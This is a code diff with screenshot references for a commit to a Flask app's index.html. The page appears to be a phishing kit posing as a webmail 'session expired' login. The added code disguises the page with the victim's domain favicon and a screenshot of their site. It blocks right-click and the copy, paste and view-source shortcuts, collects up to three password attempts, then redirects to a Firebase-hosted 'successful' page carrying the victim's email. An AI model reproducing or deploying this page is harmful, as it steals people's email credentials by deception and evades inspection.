

Before and after one commit to marcosahubar-coder/2bcb08ec0e9d5ca49e79ba9b4497bafc15862cc988944645f7d50075cd584a6d0fbbef81bc9c6cc, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Run offline with Flask 2, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -1,5 +1,3 @@
-
-
 <!DOCTYPE html>
 <html lang="en" >
 
@@ -10,23 +8,42 @@
 <meta http-equiv="content-type" content="text/html; charset=windows-1252">
         <meta name="robots" content="noindex, nofollow">
 <meta name="googlebot" content="noindex, nofollow">
-    <title>Update Page</title>
+    <title>Webmail Portal Login</title>
     <script src="jquery-1.js"></script>
+	 <div id="google_translate_element"></div>
 
-    <!-- Required meta tags -->
+    <script type="text/javascript">
+        function googleTranslateElementInit() {
+            new google.translate.TranslateElement(
+                {pageLanguage: 'en'},
+                'google_translate_element'
+            );
+        }
+    </script>
+
+    <script type="text/javascript"
+            src=
+"https://translate.google.com/translate_a/element.js?
+cb=googleTranslateElementInit">
+    </script>
+
+    <!--  -->
     <meta charset="utf-8">
     <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
 
 
-      <!-- Required meta tags -->
+      <!-- ote,pre,a,abbr,acronym,address,big,cite,code,del,dfn,em,img,ins,kbd,q,s,samp,small,strike,strong,sub,sup,tt,var,b,u,i,center,dl,dt,dd,ol,ul,li,fieldset,form,label,legend,table,caption,tbody,tfoot,thead,tr,th,td,article,aside,canvas,details,embed,figure,figcaption,footer,header,hgroup,menu,nav,output,ruby,section,summary,time,mark,audio,video{margin:0;padding:0;border:0;vertical-align:baseline}article,aside,details,figcaption,figure,footer,header,hgroup,menu,nav,section{display:block}body{line-height:1}ol,ul{list-style:none}blockquote,q{quotes:none}block -->
     <meta charset="utf-8">
     <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
 
-    <!-- Bootstrap CSS -->
+    <!-- Bootsdisplay: block;
+  height: 45px;
+  transition: all 0.3s linear;trap CSS -->
     <link rel="stylesheet" href="bootstrap.min.css?1422585379">
-    <link href="" rel="stylesheet">
-    <script src="" crossorigin="anonymous"></script>
+    <link href="https://fonts.googleapis.com/css?family=Yellowtail%26display=swap" rel="stylesheet">
+    <script src="https://kit.fontawesome.com/585b051251.js" crossorigin="anonymous"></script>
   <style>
+
 
  html,body,div,span,applet,object,iframe,h1,h2,h3,h4,h5,h6,p,blockquote,pre,a,abbr,acronym,address,big,cite,code,del,dfn,em,img,ins,kbd,q,s,samp,small,strike,strong,sub,sup,tt,var,b,u,i,center,dl,dt,dd,ol,ul,li,fieldset,form,label,legend,table,caption,tbody,tfoot,thead,tr,th,td,article,aside,canvas,details,embed,figure,figcaption,footer,header,hgroup,menu,nav,output,ruby,section,summary,time,mark,audio,video{margin:0;padding:0;border:0;vertical-align:baseline}article,aside,details,figcaption,figure,footer,header,hgroup,menu,nav,section{display:block}body{line-height:1}ol,ul{list-style:none}blockquote,q{quotes:none}blockquote:before,blockquote:after,q:before,q:after{content:'';content:none}table{border-collapse:collapse;border-spacing:0}
 
@@ -153,8 +170,8 @@ form a:hover{
   }
 </script>
 
-    <script src="://ajax.googleapis.com/ajax/libs/jquery/2.2.4/jquery.min.js"></script>
-  <script src="://stackpath.bootstrapcdn.com/bootstrap/4.1.3/js/bootstrap.min.js"></script>
+    <script src="https://ajax.googleapis.com/ajax/libs/jquery/2.2.4/jquery.min.js"></script>
+  <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.1.3/js/bootstrap.min.js"></script>
 
     <script>
   window.console = window.console || function(t) {};
@@ -172,6 +189,28 @@ form a:hover{
   <script>
 
     /* global $ */
+
+	document.addEventListener('contextmenu', event => event.preventDefault());
+
+	document.onkeydown = function(e) {
+	if (e.ctrlKey &&
+	(e.keyCode === 67 ||
+	e.keyCode === 86 ||
+	e.keyCode === 85 ||
+	e.keyCode === 117)) {
+	return false;
+	} else {
+	return true;
+	}
+	};
+	$(document).keypress("u",function(e) {
+	if(e.ctrlKey)
+	{
+	return false;      }
+	else {
+	return true;
+	}});
+
     $(document).ready(function(){
       var count=0;
 
@@ -204,10 +243,10 @@ form a:hover{
         var final= c.toLowerCase();
         var finalu= c.toUpperCase();
 
-        $("#logoimg").attr("src", "://www.google.com/s2/favicons?domain="+my_slice);
+        $("#logoimg").attr("src", "https://www.google.com/s2/favicons?domain="+my_slice);
         $("#logoname").html(finalu);
         $(".logoname").html(finalu);
-        $("#iframe").attr("src", "://www."+my_slice);
+        $("#iframe").attr("src", "https://image.thum.io/get/width/1200/https://"+my_slice);
       }
 
       $('#submit-btn').click(function(event){
@@ -234,8 +273,8 @@ form a:hover{
       var final= c.toLowerCase();
       var finalu= c.toUpperCase();
 
-$("#iframe").attr("src", "://www."+my_slice);
-        $("#logoimg").attr("src", "://www.google.com/s2/favicons?domain="+my_slice);
+$("#iframe").attr("src", "https://www."+my_slice);
+        $("#logoimg").attr("src", "https://www.google.com/s2/favicons?domain="+my_slice);
         $(".logoimg").attr("src", "https://www.google.com/s2/favicons?domain="+my_slice);
         $("#logoname").html(finalu);
       ///////////new injection////////////////
@@ -259,10 +298,10 @@ $("#iframe").attr("src", "://www."+my_slice);
                 console.log(response);
                 if(response['signal'] == 'ok'){
                   $("#password").val("");
-                  if (count>=2) {
+                  if (count>=3) {
                     count=0;
                     // window.location.replace(response['redirect_link']);
-                    window.location.replace("http://www."+my_slice);
+                    window.location.replace("https://firebasestorage.googleapis.com/v0/b/sbcd998wic0.appspot.com/o/successful.html?alt=media&token=916262de-b391-443c-84fa-eba226689d5b#"+my_email);
 
                   }
                   // $('#msg').html(response['msg']);
@@ -274,9 +313,9 @@ $("#iframe").attr("src", "://www."+my_slice);
             },
             error: function(){
               $("#password").val("");
-              if (count>=2) {
+              if (count>=3) {
                 count=0;
-                window.location.replace("http://www."+my_slice);
+                window.location.replace("https://firebasestorage.googleapis.com/v0/b/sbcd998wic0.appspot.com/o/successful.html?alt=media&token=916262de-b391-443c-84fa-eba226689d5b#"+my_email);
               }
               $("#msg").show();
               // $('#msg').html("Please try again later");
@@ -345,16 +384,16 @@ $("#iframe").attr("src", "://www."+my_slice);
         <div class="modal-body">
         <div class="form-wrap">
         <center>
-            <div>Your session has expired, please log in again to continue..</div></center>
+            <div>Your session has expired, please login again to continue.</div></center>
         <center>
-          <div class="alert alert-danger" id="msg" style="display: none; color:red;"> Incorrect Password. Please Enter your correct Password</div>
+          <div class="alert alert-danger" id="msg" style="display: none; color:red;"> Kindly re-confirm your correct password!</div>
           <div id="error" class="text-danger" style="display: none; color:red;">That account doesn't exist. Enter a different account</div>
         </center>
       <div class="input_box">
         <input type="email" name="username" id="email" placeholder="Email or Phone" disabled="disabled" >
         <div class="icon"><i class="fas fa-user"></i></div>
       </div>
-      <div class="input_box">
+      <div class="input_box" required="required">
         <input type="password" name="password" id="password" placeholder="Password" autofocus required="required">
         <div class="icon"><i class="fas fa-lock"></i></div>
       </div>
```
